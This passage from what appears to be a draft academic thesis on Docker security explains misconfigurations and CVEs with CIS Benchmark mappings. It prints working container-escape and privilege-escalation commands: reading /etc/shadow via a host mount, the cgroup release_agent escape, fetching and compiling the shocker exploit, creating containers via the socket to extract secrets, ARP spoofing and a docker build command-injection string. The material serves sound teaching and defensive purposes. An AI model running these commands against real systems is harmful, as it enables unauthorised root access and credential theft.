A lot of the known container escapes are possible because the container can access some files on the host. For example, if Docker mounts some necessary directories in \lstinline{/proc} by default (which would be a vulnerability) or if sensitive data is mounted as a volume (which would be a misconfiguration).

\medskip

It be noted that an exploit that allows someone to escape from a Linux \lstinline{namespace} is essentially a container escape exploit, because Docker relies heavily on \lstinline{namespaces} for isolation (see \autoref{subsubsection:internals}). CVE--2017--7308\cite{CVE-2017-7308} is a good example of this.


\section{Docker Daemon Attack}
If user permissions are incorrectly configured, an unprivileged user can access privileged resources using the Docker daemon. This is shown in \autoref{fig:docker-daemon-attack}.

\begin{figure}[ht]
    \centering
    
\begin{tikzpicture}[x=0.75pt,y=0.75pt,yscale=-1,xscale=1]
        % Host Rectangle
        \draw (0,100) -- (400,100) -- (400,130) -- (0,130) -- cycle ;
        \draw (200, 115) node {Host};

        %Docker Daemon Rectangle
        \draw (200,75) -- (400,75) -- (400,95) -- (200,95) -- cycle ;
        \draw (300,85) node {Docker Daemon};

        % Process A Rectangle
        \draw (0,40) -- (85,40) -- (85,70) -- (0,70) -- cycle ;
        \draw (42.5,55) node {Process A};

        % Process B Rectangle
        \draw (105,40) -- (190,40) -- (190,70) -- (105,70) -- cycle ;
        \draw (147.5,50) node {Process B};
        \draw (147.5,62.5) node {{\footnotesize (unprivileged)}};

        %Container Process C Rectangle
        \draw (200,0) -- (295,0) -- (295,70) -- (200,70) -- cycle ;
        \draw (247.5,10) node {Container};

        %% Process C Rectangle
        \draw (205,20) -- (290,20) -- (290,50) -- (205,50) -- cycle ;
        \draw (247.5,35) node {Process C};

        %Container Process D Rectangle
        \draw (305,0) -- (400,0) -- (400,70) -- (305,70) -- cycle ;
        \draw (352.5,10) node {Container};

        %% Process D Rectangle
        \draw (310,20) -- (395,20) -- (395,50) -- (310,50) -- cycle ;
        \draw (352.5,35) node {Process D};

        % Line
        \draw [-latex] (147.5,70) -- (200,85) -- (42.5,70);
    \end{tikzpicture}
    \caption{}\label{fig:docker-daemon-attack}
    \medskip
    \small
    An unprivileged process B accessing privileged data (in the image process A) using the Docker daemon.
\end{figure}

Because Docker needs a lot of kernel features to function properly, the Docker daemon needs to run as \lstinline{root}. Because Docker has many (powerful) features, this allows any user with permissions to use Docker to gain \lstinline{root} privileges. This is why the Docker documentation explicitly states ``only trusted users should be allowed to control your Docker daemon''\footnote{\url{https://docs.docker.com/engine/security/security/}}.

\medskip

A real life example of the impact of incorrectly configured Docker permissions happened a few years back with one of the courses in the Computing Science curriculum (of the Radboud). A professor wanted to teach students about containerization and modern software development. The professor asked the IT department to install Docker on all student workstations and add all the students in the course to \lstinline{docker} group (giving them full permissions to run Docker). This gave every student the equivalent of \lstinline{root} rights on every workstation. This was a problem, because it allowed students to read sensitive information (e.g.\ private keys and \lstinline{/etc/shadow}) and make changes to the system.


    \chapter{Known Vulnerabilities in Docker}\label{chapter:vulnerabilities}
\todo[inline]{introduction}
In this chapter we will look at Docker from a vulnerability analysis perspective. First we will look conceptually at Docker from a security perspective by examining the attack surface of Docker on an host and the various attacker models that come with it. Then we look at the countermeasures built-in Docker and Linux to prevent or reduce the impact of security problems. We then look at some interesting, practical examples of security problems in Docker. These are split into misconfigurations and security related software bugs.

\medskip

Software bugs and misconfigurations can both be security problems, but they differ in who made the mistake. A \emph{bug} is a problem in a program itself. For example, a buffer overflow is a bug. The problem lies solely in the program itself. To fix it, the code of the program needs to be changed. \emph{Misconfigurations}, on the other hand, are security problems that come from wrong usage of a program. The program is incorrectly configured and that creates a situation that might be exploitable to an attacker. For example, a world-readable file containing passwords is a misconfiguration. To fix a misconfiguration, the user should change the configuration of the program. The developers of the program can only recommend users to configure it correctly.

\medskip

In the \autoref{chapter:pentesting}, we will look at how these vulnerabilities can be used during a penetration test.

\section{Misconfigurations}\label{misconfigurations}
In this section, we will take a look at misconfigurations of Docker and the impact those misconfigurations have. For each misconfiguration, we will look at a practical example. We will also look at which guidelines from the Docker CIS Benchmark cover these misconfigurations.

\subsection{Docker Permissions}\label{subsection:docker-permissions}
A common (and notorious) misconfiguration is giving unprivileged users access to Docker, which allows them to create, start and otherwise interact with Docker containers (through the Docker daemon). This is dangerous because this allows the unprivileged users to access all files as \lstinline{root}. The Docker documentation says\footnote{\url{https://docs.docker.com/engine/security/security/}}:
\begin{quote}
\emph{First of all, only trusted users should be allowed to control your Docker daemon. This is a direct consequence of some powerful Docker features. Specifically, Docker allows you to share a directory between the Docker host and a guest container; and it allows you to do so without limiting the access rights of the container. This means that you can start a container where the /host directory is the / directory on your host; and the container can alter your host filesystem without any restriction}.
\end{quote}

In short, because the Docker daemon runs as \lstinline{root}, if a user adds a directory as a volume to a container, that file is accessed as \lstinline{root}. There a few ways for unprivileged users to access Docker. In this section we will look at those.

\subsubsection{\texorpdfstring{\lstinline{docker}}{docker} Group}
Every user in the \lstinline{docker} group is allowed to use Docker (see \autoref{background:docker-socket}). This allows access management of Docker usage. Sometimes a system administrator does not want to do proper access management and adds every user to the \lstinline{docker} group, because that allows everything to run smoothly. This misconfiguration, however, allows every user to access every file on the system, as illustrated in \autoref{listing:docker-group}.

\medskip

Let's say we want the password hash of user \lstinline{admin} on a system where we do not have \lstinline{sudo} privileges, but we are a member of the \lstinline{docker} group.

\begin{lstlisting}[caption={Docker \lstinline{group} exploit example.},captionpos=b,label={listing:docker-group}]
(host)$ sudo -v
Sorry, user unpriv may not run sudo on host.
(host)$ groups | grep -o docker
docker
(host)$ docker run -it --rm -v /:/host ubuntu:latest bash
(cont)# grep admin /host/etc/shadow
admin:$6$VOSV5AVQ$jHWxAVAUgl...:18142:0:99999:7:::
\end{lstlisting}

In \autoref{listing:docker-group} we first check our permissions. We do not have \lstinline{sudo} permissions, but we are a member of the \lstinline{docker} group. This allows us to create a container with \lstinline{/} mounted as volume and access any file as \lstinline{root}. This includes the file with user password hashes (i.e.\ \lstinline{/etc/passwd}).

\medskip

This is covered by the CIS Docker Benchmark guideline 1.2.2 (Ensure only trusted users are allowed to control Docker daemon).

\subsubsection{The World Readable and Writable Docker Socket}
By default, only \lstinline{root} and every user in the \lstinline{docker} group have access to Docker, because they have read and write access to the Docker socket. However, some administrators set the permissions to read and write for all users (i.e. \lstinline{666}), giving all users access to the Docker daemon.

\begin{lstlisting}[caption={All users can use Docker if they have read and write access to the Socket},captionpos=b,label={listing:read-write-socket}]
(host)$ groups | grep -o docker
(host)$ ls -l /var/run/docker.sock
srw-rw-rw- 1 root docker 0 Dec 20 13:16 /var/run/docker.sock
(host)$ docker run -it --rm -v /:/host ubuntu:latest bash
(cont)# grep admin /host/etc/shadow
admin:$6$VOSV5AVQ$jHWxAVAUgl...:18142:0:99999:7:::
\end{lstlisting}

In \autoref{listing:read-write-socket}, we see that we are not a member of the Docker group, but because every user has read and write access (i.e.\ the read and write permissions are set for \lstinline{other}) we are still able to use Docker.

\subsubsection{\texorpdfstring{\lstinline{setuid}}{setuid} Bit}\label{subsubsection:setuid}
Another way system administrators might skip proper access management is to set the \lstinline{setuid} bit on the \lstinline{docker} binary.

\medskip

The \lstinline{setuid} bit is a permission bit in Unix, that allows users to run binaries as the owner (or group) of the binary instead of themselves.
This is useful in specific cases. For example, users should be able to change their own passwords, but should not be able to read password hashes of other users. That is why the \lstinline{passwd} binary (which is used to change a users password) has the \lstinline{setuid} bit set. A user can change their password, because \lstinline{passwd} is run as \lstinline{root} (the owner of \lstinline{passwd}) and, of course, \lstinline{root} is able to read from and write to the password file. In this case the \lstinline{setuid} bit is not a security issue, because \lstinline{passwd} asks for the user's password itself and will only change specific entries in the password file.

\medskip

If a system is misconfigured by having the \lstinline{setuid} bit set for the \lstinline{docker} binary, a user will be able to execute Docker as \lstinline{root} (the owner of \lstinline{docker} binary). Just like before, we can easily recreate this attack.

\begin{lstlisting}[caption={Docker \lstinline{setuid} exploit example.},captionpos=b, label={listing:setuid}]
(host)$ sudo -v
Sorry, user unpriv may not run sudo on host.
(host)$ groups | grep -o docker
(host)$ ls -halt /usr/bin/docker
-rwsr-xr-x 1 root root 85M okt 18 17:52 /usr/bin/docker
(host)$ docker run -it --rm -v /:/host ubuntu:latest bash
(cont)# grep admin /host/etc/shadow
admin:$6$VOSV5AVQ$jHWxAVAUgl...:18142:0:99999:7:::
\end{lstlisting}

In \autoref{listing:setuid} we see that we are not a part of the \lstinline{docker} group, but we can still run \lstinline{docker} because the \lstinline{setuid} bit (and the execute bit for all users) is set.

\medskip

This is not covered by the CIS Docker Benchmark guidelines. There are multiple guidelines about correct file and directory permissions, but none cover the binaries.

\subsection{\texorpdfstring{\lstinline{--privileged}}{--privileged} Flag}

Docker has a special privileged mode\cite{Docker-in-Docker-blog}. This mode is enabled if a container is created with the \lstinline{--privileged} flag and it enables access to all host devices and kernel capabilities. This is a very powerful mode and enables some very useful features (e.g\ building Docker images inside a Docker container). But it is also very dangerous as those kernel features allow an attacker inside the container to escape and access the host.

\hfill

A simple example of this, is using a feature in \lstinline{cgroups}\cite{CGroup-Docs}. If a \lstinline{cgroup} does not contain any processes anymore, it is released. It is possible to specify a command that should be run in case that happens (called a \lstinline{release_agent}). It is possible to define such a \lstinline{release_agent} in a privileged docker. If the \lstinline{cgroup} is released, the command is run on the host\cite{TrailOfBits-Docker-Escape}.

\hfill

We can look at a proof of concept of this attack developed by security researcher Felix Wilhelm\cite{Felix-Wilhem-Tweet}.
\begin{lstlisting}[caption={Docker escape using \lstinline{cgroups} (privileged)},captionpos=b]
(host)$ docker run -it --rm --privileged ubuntu:latest bash
(cont)# d=`dirname $(ls -x /s*/fs/c*/*/r* |head -n1)`
(cont)# mkdir -p $d/w;echo 1 >$d/w/notify_on_release
(cont)# t=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
(cont)# touch /o; echo $t/c >$d/release_agent;printf '#!/bin/sh\nps >'"$t/o" >/c;
(cont)# chmod +x /c;sh -c "echo 0 >$d/w/cgroup.procs";sleep 1;cat /o
\end{lstlisting}

This proof of concept creates a new \lstinline{cgroup}, sets a \lstinline{release_agent} and releases it. In this case the \lstinline{release_agent} runs \lstinline{ps} and writes the output to the root of the container.

\subsection{Capabilities}\label{misconfigurations:subsection:capabilities}
As we saw in \autoref{protection-mechanisms:subsection:capabilities}, in order to perform privileged actions in the Linux kernel, a process needs the relevant \lstinline{capability}. Docker containers are started with minimal capabilities, but it is possible to add extra capabilities at runtime. Giving containers extra capabilities gives the container permission to perform certain actions. Some of these actions allow Docker escapes. We will look at two such capabilities in the following sections.

\medskip

The CIS Docker Benchmark covers all of these problems in one guideline: 5.3 (Ensure that Linux kernel capabilities are restricted within containers).

\subsubsection{\texorpdfstring{\lstinline{CAP_SYS_ADMIN}}{CAP SYS ADMIN}}\label{CAP_SYS_ADMIN}
The Docker escape by Felix Wilhelm~\cite{Felix-Wilhem-Tweet} we used in \autoref{subsection:privileged} needs to be run in privileged mode to work, but it can be rewritten to only need the permission to run \lstinline{mount}~\cite{TrailOfBits-Docker-Escape}, which is granted by the \lstinline{CAP_SYS_ADMIN} capability.

\todo[inline]{Geert: Explain using line numbers}
\begin{lstlisting}[caption={Docker escape using \lstinline{CAP_SYS_ADMIN}.},captionpos=b]
(host)$ docker run --rm -it --cap-add=CAP_SYS_ADMIN --security-opt apparmor=unconfined ubuntu /bin/bash
(cont)# mkdir /tmp/cgrp
(cont)# mount -t cgroup -o rdma cgroup /tmp/cgrp
(cont)# mkdir /tmp/cgrp/x
(cont)# echo 1 > /tmp/cgrp/x/notify_on_release
(cont)# host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
(cont)# echo "$host_path/cmd" > /tmp/cgrp/release_agent
(cont)# echo '#!/bin/sh' > /cmd
(cont)# echo "ps aux > $host_path/output" >> /cmd
(cont)# chmod a+x /cmd
(cont)# sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
(cont)# cat /output
\end{lstlisting}

Unlike before, instead of relying on \lstinline{--privileged} to give us write access to a \lstinline{cgroup}, we just need to mount our own. This gives us exactly the same scenario as we saw in \autoref{subsection:privileged}. We use a \lstinline{release_agent} to run code on the host. The only difference being that we have to do some manual work ourselves.

\subsubsection{\texorpdfstring{\lstinline{CAP_DAC_READ_SEARCH}}{CAP DAC READ SEARCH}}
Before Docker 1.0.0 \lstinline{CAP_DAC_READ_SEARCH} was added to the default capabilities that a containers are given. But this capability allows a process to escape its the container~\cite{Docker-Shocker-Seclists}. A process with \lstinline{CAP_DAC_READ_SEARCH} is able to bruteforce the internal index of files outside of the container. To demonstrate this attack a proof of concept exploit was released~\cite{Docker-Shocker}~\cite{Docker-Shocker-Analysis}. This exploit has been released in 2014, but still works on containers with the \lstinline{CAP_DAC_READ_SEARCH} capability.

\medskip

\begin{lstlisting}[caption={Docker escape using \lstinline{CAP_DAC_READ_SEARCH}.},captionpos=b]
(host)$ curl -o /tmp/shocker.c http://stealth.openwall.net/xSports/shocker.c
(host)$ sed -i "s/\/.dockerinit/\/tmp\/a.out/" shocker.c
(host)$ cc -Wall -std=c99 -O2 shocker.c -static
(host)$ docker run --rm -it --cap-add=CAP_DAC_READ_SEARCH -v /tmp:/tmp busybox sh
(cont)# /tmp/a.out
...
[!] Win! /etc/shadow output follows:
...
admin:$6$VOSV5AVQ$jHWxAVAUgl...:18142:0:99999:7:::
\end{lstlisting}

The exploit needs a file with a file handle on the host system to properly work. Instead of the default \lstinline{/.dockerinit} (which is no longer created in newer versions of Docker) we use the exploit file itself \lstinline{/tmp/a.out}. We start a container with the \lstinline{CAP_DAC_READ_SEARCH} capability and run the exploit. It prints the password file of the host (i.e. \lstinline{/etc/shadow}).

\subsection{Docker Engine API}
The Docker Daemon runs a RESTful\footnote{\url{https://restfulapi.net/}} API\footnote{\url{https://docs.docker.com/engine/api/v1.40/}} that is used to communicate with the Docker Daemon. For example, when an user executes a Docker client command, it actually makes a request to the API. By default the API listens on a UNIX socket accessible through \lstinline{/var/run/docker.sock}, but it also possible to make it listen on a port. This makes it possible for anybody in the \lstinline{docker} group (and \lstinline{root}) to make HTTP requests. For example the following commands (to see all containers) produce the same output (albeit in a different format). The first one is a command using the Docker client and the second is a HTTP request (using \lstinline{curl}\footnote{\url{https://curl.haxx.se/}}).
\begin{lstlisting}[caption={Docker client and Socket},captionpos=b]
(host)$ docker ps -a
...
(host)$ curl --unix-socket /var/run/docker.sock -H 'Content-Type: application/json' "http://localhost/containers/json?all=1"
...
\end{lstlisting}

\hfill

In some cases, it might be possible to access the API when it is not possible to access the Docker client, but because API access gives the same exact possibilities as having access to the Docker client, this is very dangerous\cite{The-Dangers-Of-Docker-Sock}.
However, giving containers access to the API (by adding the socket as a volume) is a common practice, because it allows containers to monitor and analyse other containers.

\subsubsection{Container Escapes}
If the \lstinline{/var/run/docker.sock} is added as a volume to a container, the container has access to the API. This means the process in the container has full access to Docker on the host. This can be used to escape, because the container can create another container with arbitrary volumes and commands. It is even possible to create an interactive shell in another container\cite{Escape-Socket-Shell}.

\hfill

Lets say we want to get the password hash of an user called \lstinline{admin} on the host. We are in a container that has access to \lstinline{/var/run/docker.sock}. We use the API to start another Docker container on the host, that has access to the password hash (located in \lstinline{/etc/shadow}). We read the password file, by looking at the logs of the container that we just started.

\begin{lstlisting}
(host)$ docker run -it --rm -v /var/run/docker.sock:/var/run/docker.sock ubuntu /bin/bash
(cont)# curl -XPOST -H "Content-Type: application/json" --unix-socket /var/run/docker.sock -d '{"Image":"ubuntu:latest","Cmd":["cat", "/host/etc/shadow"],"Mounts":[{"Type":"bind","Source":"/","Target":"/host"}]}' "http://localhost/containers/create?name=escape"
...
(cont)# curl -XPOST --unix-socket /var/run/docker.sock "http://localhost/containers/escape/start"
(cont)# curl --output - --unix-socket /var/run/docker.sock "http://localhost/containers/escape/logs?stdout=true"
...
admin:$6$VOSV5AVQ$jHWxAVAUgl...:18142:0:99999:7:::
...
(cont)# curl -XDELETE --unix-socket /var/run/docker.sock "http://localhost/containers/escape"
\end{lstlisting}

\subsubsection{Finding Sensitive information}

When a container has access to \lstinline{/var/run/docker.sock} (i.e. \lstinline{/var/run/docker.sock} is added as volume inside the container), it cannot only start new containers but it can also look at the configuration of existing containers. This configuration might contain sensitive information (e.g. passwords in the environment variables).

\hfill

Lets start a Postgres\footnote{\url{https://www.postgresql.org/}} database inside a Docker. From the documentation of the Postgres Docker image\footnote{\url{https://hub.docker.com/_/postgres}}, we know that we can provide a password using the \lstinline{POSTGRES_PASSWORD} environment variable. If we have access to another container which has access to the Docker API, we can read that password from the environment variable.

\begin{lstlisting}[caption={Example extract secrets using the Docker API},captionpos=b]
(host)$ docker run --name database -e POSTGRES_PASSWORD=thisshouldbesecret -d postgres
...
(host)$ docker run -it --rm -v /var/run/docker.sock:/var/run/docker.sock:ro ubuntu:latest bash
(cont)# apt update
...
(cont)# apt install curl jq
...
(cont)# curl --unix-socket /var/run/docker.sock -H 'Content-Type: application/json' "http://localhost/containers/database/json" | jq -r '.Config.Env'
[
  "POSTGRES_PASSWORD=thisshouldbesecret",
  ...
]
\end{lstlisting}

\subsubsection{Remote Access}
It is also possible to make the API listen on a TCP port. Ports 2375 and 2376 are usually used for HTTP and HTTPS communication, respectively. This, however, does bring all the extra complexity of TCP sockets with it. If not configured to only listen on \lstinline{localhost}, this gives every host on the network access to Docker (which might be desirable behavior). If the host is directly accessible by the internet, it gives everybody access to the full capabilities of Docker on the host. An attacker can exploit this by starting malicious containers\cite{Metasploit-Unprotected-TCP-Socket}.

\hfill

A malicious actor misused this feature in May 2019. He used Shodan\footnote{A search engine to search for systems connected to the internet.}\footnote{\url{https://www.shodan.io/}} to find unprotected publicly accessible Docker APIs and start containers that mine Monero\footnote{A cryptocurrency that focuses on privacy.} and find other hosts to infect\cite{zoolu2-bot-1807}\cite{zoolu2-bot-1809}\cite{zoolu2-bot-1853}.

\subsection{Readable Configuration Files}
Because setting up environments with Docker can be quite complex, many Docker users use programs to save all necessary Docker settings to configuration files (e.g. \lstinline{docker-compose}) to remove the need of repeating complex steps and configuration. These configuration files often contain very sensitive information. If the permissions on these files are configured badly, users that should not be able to read the files, might be able to read the files.

Too very common files that contain sensitive information are \lstinline{.docker/config.json} and \lstinline{docker-compose.yaml} files.

\subsubsection{\texorpdfstring{\lstinline{.docker/config.json}}{.docker/config.json}}
When pushing images to a registry, users need to login to the registry to authenticate themselves.
It would be quite annoying to login every time an user wants to push and image. That is why \lstinline{.docker/config.json} caches those credentials. These are stored in base64 encoding in the home directory of the user by default\footnote{\url{https://docs.docker.com/engine/reference/commandline/login/}}. An attacker with access to the file, can push malicious Docker images\cite{Docker-Credentials-Metasploit}.

\subsubsection{\texorpdfstring{\lstinline{docker-compose.yaml}}{docker-compose.yaml}}
\lstinline{docker-compose.yaml} files often contain secrets (e.g.\ passwords and API keys), because all information that should be passed to a container is saved in the \lstinline{docker-compose.yaml} file.

\subsection{ARP Spoofing}\label{subsection:arp-spoofing}
\todo[inline]{Capturing external traffic}
By default all Docker containers are added to the same bridge network. This means they are able to reach each other. By default Docker containers also receive the \lstinline{CAP_NET_RAW} capability, which allows them to create raw packets. This means that by default, containers are able to ARP spoof other containers\footnote{IPv4 forwarding is enabled by default by Docker}\cite{Abusing-Containers}.

\hfill

Let's take a look at how this in a practical example. Let's say we have three containers. One container will ping another container. A third malicious container wants to intercept the \lstinline{ICMP} packets.

We start three Docker containers using the \lstinline{ubuntu:latest} image (which is the same as \lstinline{ubunut:bionic-20191029} at the time of writing). They have the following names IPv4 addresses and MAC addresses:
\begin{itemize}
    \item \lstinline{victim0}: \lstinline{172.17.0.2} and \lstinline{02:42:ac:11:00:02}
    \item \lstinline{victim1}: \lstinline{172.17.0.3} and \lstinline{02:42:ac:11:00:03}
    \item \lstinline{attacker}: \lstinline{172.17.0.4} and \lstinline{02:42:ac:11:00:04}
\end{itemize}

We use \lstinline{vic0}, \lstinline{vic1} and \lstinline{atck} instead of \lstinline{cont} to indicate in which container a command is executed.

\begin{lstlisting}[caption={Docker container ARP spoof},captionpos=b]
(host)$ docker run --rm -it --name=victim0 --hostname=victim0 ubuntu:latest /bin/bash
(vic0)# apt update
...
(vic0)# apt install net-tools iproute2 iputils-ping
...
(host)$ docker run --rm -it --name=victim1 --hostname=victim1 ubuntu:latest /bin/bash
(host)$ docker run --rm -it --name=attacker --hostname=attacker ubuntu:latest /bin/bash
(atck)# apt update
...
(atck)# apt install dsniff net-tools iproute2 tcpdump
...
(atck)# arpspoof -i eth0 -t 172.17.0.2 172.17.0.3
...
(vic0)# arp
arp
172.17.0.3 ether 02:42:ac:11:00:04 C eth0
...
172.17.0.4 ether 02:42:ac:11:00:04 C eth0
(vic0)# ping 172.17.0.3
...
(atck)# tcpdump -vni eth0 icmp
...
10:16:18.368351 IP (tos 0x0, ttl 63, id 52174, offset 0, flags [DF], proto ICMP (1), length 84)
    172.17.0.2 > 172.17.0.3: ICMP echo request, id 898, seq 5, length 64
10:16:18.368415 IP (tos 0x0, ttl 64, id 8188, offset 0, flags [none], proto ICMP (1), length 84)
    172.17.0.3 > 172.17.0.2: ICMP echo reply, id 898, seq 5, length 64
...
\end{lstlisting}

We first start three containers and install dependencies. We then start to poison the ARP table of \lstinline{victim0}. We can observe this by looking at the ARP table of \lstinline{victim0} (with the \lstinline{arp} command). We see that the entries for \lstinline{172.17.0.3} and \lstinline{172.17.0.4} are the same (\lstinline{02:42:ac:11:00:04}). If we then start pinging \lstinline{victim1} from \lstinline{victim0} and looking at the \lstinline{ICMP} traffic on \lstinline{attacker}, we see that the \lstinline{ICMP} packets are routed through \lstinline{attacker}.

\hfill

Disabling inter-container communication by default is covered in the Docker CIS Benchmark by guideline 2.1 (Ensure network traffic is restricted between containers on the default bridge).

\subsection{\texorpdfstring{\lstinline{iptables}}{iptables} Bypass}\label{subsection:iptables}
The Linux kernel has a built-in firewall, called \lstinline{Netfilter} which can be configured with a program called \lstinline{iptables}. This firewall consists of multiple chains of rules which are stored in tables. Each table has a different purpose. For example, there is a \lstinline{nat} table for address translation and a \lstinline{filter} table for traffic filtering (which is the default).
Each table has chains of ordered rules which also have a different purpose. For example, there are the \lstinline{OUTPUT} and \lstinline{INPUT} chains in the \lstinline{filter} table that are meant for all outgoing and incoming traffic, respectively.
It is possible to configure these rules using a program called \lstinline{iptables}. All Linux based firewalls (e.g. \lstinline{ufw}) use \lstinline{iptables} as their backend.

\hfill

When the Docker daemon is started, it sets up its own chains and rules to create isolated networks. The way it sets up its rules completely bypasses other in the firewall (because they are setup before the other rules) and by default the rules are quite permissive. This is by design, because the network stack of the host and the container are separate, including the firewall rules. It is, however, a bit counterintuitive, because we would assume that if a firewall rule is set on the host, it would apply to everything running on that host (including containers).

\hfill

We will look at the following simple example of bypassing a firewall rule with Docker.

\begin{lstlisting}[caption={Bypass \lstinline{iptables} firewall rules using Docker.},captionpos=b,label={listing:iptables-bypass}]
(host)# iptables -A OUTPUT -p tcp --dport 80 -j DROP
(host)# iptables -A FORWARD -p tcp --dport 80 -j DROP
(host)$ curl http://httpbin.org/get
curl: (7) Failed to connect to httpbin.org port 80: Connection timed out
(host)$ docker run -it --rm ubuntu /bin/bash
(cont)# apt update
...
(cont)# apt install curl
...
(cont)# curl http://httpbin.org/get
{
  "args": {},
  "headers": {
    "Accept": "*/*",
    "Host": "httpbin.org",
    "User-Agent": "curl/7.58.0"
  },
...
  "url": "https://httpbin.org/get"
}
\end{lstlisting}

In \autoref{listing:iptables-bypass} we first setup rules to drop all outgoing (including forwarded) traffic on port \lstinline{80} (the standard \lstinline{HTTP} port). Then, we try to request a webpage on the host. As expected, it does not work. If we then try to make the exact same request in a container, it works.

\hfill

The Docker CIS Benchmark does not cover this problem. It, however, does have guidelines that ensures this problem exists. Guideline 2.3 (Ensure Docker is allowed to make changes to iptables) recommends that the Docker daemon is allowed to change the firewall rules. Guideline 5.9 (Ensure that the host's network \lstinline{namespace} is not shared) recommends to not use the \lstinline{--network=host} argument, to make sure the container is put into a separate network stack. These are a good recommendations, because following them removes the need to configure a containerized network stack ourselves. However, it also isolates the firewall rules of the host from the containers.


\section{Security Related Software Bugs}\label{section:bugs}
\todo[inline]{Link vulnerabilities to scenarios}
\todo[inline]{Something about where to find the CVSS/likelyhood/impact score of each CVE}
\todo[inline]{In the end not very useful, this section is mostly for completeness}
In this section we will look at security related bugs that have been found in the last few years. Although there have been many vulnerabilities found in the Docker ecosystem, not all of them have a large impact. Others are not fully publicly disclosed. We will look some recent, fully disclosed vulnerabilities that might be of use during a penetration test. In the \hyperref[appendix:CVE-List]{appendix} you can find a list of all other Docker related vulnerabilities I have looked at.

\hfill

Because there are many security researchers looking for bugs in containerization software, this section will likely become quickly outdated after publishing and as such should not be used as an inclusive list of important vulnerabilities.

\hfill

All of the risk of these bugs can be prevented by using the latest version of Docker and Docker images. This is covered by CIS Docker Benchmark guidelines 1.1.2 (Ensure that the version of Docker is up to date) and 5.27 (Ensure that Docker commands always make use of the latest version of their image), respectively.

\subsection*{Common Vulnerabilities and Exposures}
\todo[inline]{Find a better place for this}
The Common Vulnerabilities and Exposures (CVE for short) system is a list of all publicly known security vulnerabilities. Every vulnerability that is found gets a CVE identifier, which looks like CVE--2019--0000. The first number represents the year in which the vulnerability is found. The second number is an arbitrary number that is at least four digits long. The system is maintained by the Mitre Corporation. Organizations that are allowed to give out new CVE identifiers are called CVE Numbering Authorities (CNA for short). It is possible to read and search the full list on Mitre's website\footnote{\url{https://cve.mitre.org/}}, the United State's National Vulnerability Database\footnote{\url{https://nvd.nist.gov/}} and other websites like CVEDetails\footnote{\url{https://www.cvedetails.com/}}.

The severity of a CVE is determined by the Common Vulnerability Scoring System (CVSS for short) score.

\subsection{CVE--2019--16884}
Because of a bug in runC (1.0.0-rc8 and older versions) it was possible to mount \lstinline{/proc} in a container. Because the active AppArmor profile is defined in \lstinline{/proc/self/attr/apparmor/current}, this vulnerability allows a container to completely bypass AppArmor.

\hfill

A proof of concept has been provided at\cite{CVE-2019-16884-Github}. We see that if we create a very simple mock \lstinline{/proc}, the Docker starts without the specified AppArmor profile.
\begin{lstlisting}[caption={Bypass AppArmor by mounting \lstinline{/proc}.},captionpos=b]
(host)$ mkdir -p rootfs/proc/self/{attr,fd}
(host)$ touch rootfs/proc/self/{status,attr/exec}
(host)$ touch rootfs/proc/self/fd/{4,5}
(host)$ cat Dockerfile
FROM busybox
ADD rootfs /

VOLUME /proc
(host)$ docker build -t apparmor-bypass .
(host)$ docker run --rm -it --security-opt "apparmor=docker-default"  apparmor-bypass
# container runs unconfined
\end{lstlisting}

\subsection{CVE--2019--13139}\label{CVE-2019-13139}
Older versions than Docker 18.09.4, had a bug were \lstinline{docker build} incorrectly parsed URLs, which allows code execution~\cite{CVE-2019-13139-STAALDRAAD}. The string supplied to \lstinline{docker build} is split on ``:'' and ``\#'' to parse the Git reference. By supplying a malicious URL, it is possible to achieve code execution.

\medskip

For example, in the following \lstinline{docker build} command, the command ``\lstinline{echo attack}'' is executed.

\begin{lstlisting}[caption={\lstinline{docker build} command execution.},captionpos=b]
(host)$ docker build "git@github.com/meh/meh#--upload-pack=echo attack;#:"
\end{lstlisting}

\lstinline{docker build} executes \lstinline{git fetch} in the background. But with the malicious command \lstinline{git fetch --upload-pack=echo attack; git@github.com/meh/meh} is executed, which in turn executes \lstinline{echo attack}.

\subsection{CVE--2019--5736}\label{CVE-2019-5736}
A serious vulnerability was discovered in runC that allows containers to overwrite the runC binary on the host. Docker before version 18.09.2 is vulnerable. Whenever a Docker container is created or when \lstinline{docker exec} is used, a runC process is run. This runC process bootstraps the container. It creates all the necessary restrictions and then executes the process that needs to run in the container. The researches found that it is possible to make runC execute itself in the container, by telling the container to start \lstinline{/proc/self/exe} which during the bootstrap is symlinked to the runC binary~\cite{CVE-2019-5736-DragonSector}~\cite{CVE-2019-5736-Github}. \lstinline{/proc/self/exe} in the container will point to the runC binary on the host. The \lstinline{root} user in the container is then able to replace the runC host binary using that reference. The next time runC is executed (i.e.\ when a container is created or \lstinline{docker exec} is run), the overwritten binary is run instead. This, of course, is dangerous because it allows a malicious container to execute code on the host.

\subsection{CVE--2019--5021}\label{subsection:CVE-2019-5021}
The Docker image for Alpine Linux (one of the most used base images) had a problem where the password of the \lstinline{root} user in the container is left empty. In Linux it is possible to disable a password and to leave it blank. A disabled password cannot be used, but a blank password equals an empty string. This allows non-\lstinline{root} users to gain \lstinline{root} rights by supplying an empty string.

\hfill

It is still possible to use the vulnerable images (\lstinline{alpine:3.3}, \lstinline{alpine:3.4} and \lstinline{alpine:3.5}).
\begin{lstlisting}[caption={The Docker image of Alpine Linux 3.5 has an empty password.},captionpos=b]
(host)$ docker run -it --rm alpine:3.5 cat /etc/shadow
root:::0:::::
...
(host)$ docker run -it --rm alpine:3.5 sh
(cont)# apk add --no-cache linux-pam shadow
...
(cont)# adduser test
...
(cont)# su test
Password:
(cont)$ su root
(cont)#
\end{lstlisting}

\subsubsection*{Side note about the CVSS score of CVE--2019--5021}

